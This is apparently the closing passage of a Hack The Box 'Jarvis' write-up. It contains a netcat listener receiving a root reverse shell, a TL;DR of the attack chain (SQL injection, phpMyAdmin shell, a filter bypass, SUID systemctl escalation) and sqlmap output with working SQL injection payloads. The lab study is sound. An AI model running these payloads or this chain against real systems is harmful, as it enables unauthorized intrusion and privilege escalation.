 ```bash
luc@kali:~/HTB/Jarvis$ sudo nc -lnvp 445
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::445
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:47722.
bash: cannot set terminal process group (49907): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# whoami
root
root@jarvis:/# cd /root
cat root.txt
d41d8cd9************************
```

## TL;DR

- The page room.php is vulnerable to SQL injection
- Crack password extracted via SQL injection to get into PHPMyAdmin
- Start a shell from PHPMyAdmin
- Bad character filter in Python application allows www-data to execute commands as pepper
- SUID /bin/cystemctl from pepper to root

## Bonus

### SQLMap

SQLMap wasn't used during the initial exploitation of this box to keep it limited to what's allowed to use during the OSCP exam.

#### Confirming the vulnerable parameter

```bash
luc@kali:~/HTB/Jarvis$ sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
...
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 6124=6124

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 1284 FROM (SELECT(SLEEP(5)))MYih)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-8129 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a6a6b71,0x65767061654c4279516a42695542794b655679774a44634f776948735747644f6a41546f43624d6c,0x7178787a71),NULL,NULL-- -
...
```
